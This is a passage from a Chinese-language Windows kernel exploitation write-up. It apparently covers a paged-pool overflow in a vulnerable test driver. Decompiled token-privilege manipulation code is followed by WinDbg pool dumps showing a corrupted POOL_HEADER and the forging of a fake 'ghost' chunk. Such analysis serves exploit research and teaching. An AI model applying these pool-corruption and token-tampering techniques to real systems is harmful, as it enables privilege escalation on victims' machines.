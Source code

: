```
      }
      // 如果地址_RDI_Token_EnabledPresent_Ptr指向值等于Token_EnabledPresent_Value修改指向值为Deleta,也就说递减valueThunckSize
      result = _InterlockedCompareExchange(_RDI_Token_EnabledPresent_Ptr, Deleta, Token_EnabledPresent_Value);
      equal = Token_EnabledPresent_Value == result;
      Token_EnabledPresent_Value = result;
    }
    while ( !equal );
}
```

### 调试分析 ###

下面我们通过具体的调试输出验证下漏洞运行的实际结果.笔者使用了0x180的分页内存区域pool大小,在覆盖块被覆盖之前pool布局
```
sxe ld:poolqudong.sys "bp poolqudong!CommandCopy"
//g_Buffer 指针指向的就是漏洞块的地址ffffad09`df3f8a40
1: kd> !pool poi(g_Buffer)-10; //ffffad09df3f8a40
DBGHELP: SharedUserData - virtual symbol module
Pool page ffffad09df3f8a40 region is Paged pool
 ffffad09df3f80e0 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8270 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8400 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8590 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8720 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f88b0 size:  190 previous size:    0  (Allocated)  NpAt
*ffffad09df3f8a40 size:  190 previous size:    0  (Allocated) *VULN
		Owning component : Unknown (update pooltag.txt)
//下个就是覆盖块		
 ffffad09df3f8bd0 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8d60 size:  190 previous size:    0  (Allocated)  NpAt
//poi(g_Buffer)+180就是ffffad09df3f8bd0
1: kd> dt nt!_pool_header poi(g_Buffer)+180;
   +0x000 PreviousSize     : 0y00000000 (0)
   +0x000 PoolIndex        : 0y00000000 (0)
   //漏洞块大小是190
   +0x002 BlockSize        : 0y00011001 (0x19)
   +0x002 PoolType         : 0y00000011 (0x3)
   +0x000 Ulong1           : 0x3190000
   +0x004 PoolTag          : 0x7441704e
   +0x008 ProcessBilled    : (null) 
   +0x008 AllocatorBackTraceIndex : 0
   +0x00a PoolTagHash      : 0
```
覆盖块被之后覆盖,此时覆盖块已经不能被系统正常识别,它的POOL_HEADER中使用PreviousSize被设置为0x15,并且CacheAligned置位,覆盖块的地址ffffad09df3f8bd0-(0x15*0x10)=ffffad09`df3f8a80也就是就是接下来要伪造的幽灵块,
```
//在trigger_vuln(xploit, overflow, xploit->offset_to_pool_header + 4);执行之后
1: kd> !pool poi(g_Buffer)-10;
Pool page ffffad09df3f8a40 region is Paged pool
 ffffad09df3f80e0 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8270 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8400 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8590 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f8720 size:  190 previous size:    0  (Allocated)  NpAt
 ffffad09df3f88b0 size:  190 previous size:    0  (Allocated)  NpAt
*ffffad09df3f8a40 size:  190 previous size:    0  (Allocated) *VULN
		Owning component : Unknown (update pooltag.txt)
//覆盖块已经不能被系统正常识别
ffffad09df3f8bd0 doesn't look like a valid small pool allocation, checking to see
if the entire page is actually part of a large page allocation...
//就是覆盖块ffffad09df3f8bd0的POOL_HEADER
1: kd> dt nt!_pool_header poi(g_Buffer)+180=ffffad09`df3f8bd0;
```